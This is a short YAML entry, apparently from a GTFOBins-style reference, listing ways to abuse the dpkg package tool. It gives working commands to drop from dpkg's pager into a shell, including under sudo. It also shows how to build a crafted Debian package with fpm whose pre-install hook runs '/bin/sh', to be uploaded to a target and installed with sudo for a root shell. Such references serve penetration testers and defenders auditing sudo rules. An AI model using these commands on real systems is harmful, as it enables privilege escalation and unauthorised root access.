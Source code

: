 ```yaml
---
functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](../less/index.html), other functions may apply.
      code: |
        dpkg -l
        !/bin/sh
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](../less/index.html), other functions may apply.
      code: |
        sudo dpkg -l
        !/bin/sh
    - description: |
        It runs an interactive shell using a specially crafted Debian package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'exec /bin/sh' > $TF/x.sh
        fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF
        ```
      code: sudo dpkg -i x_1.0_all.deb
---
```


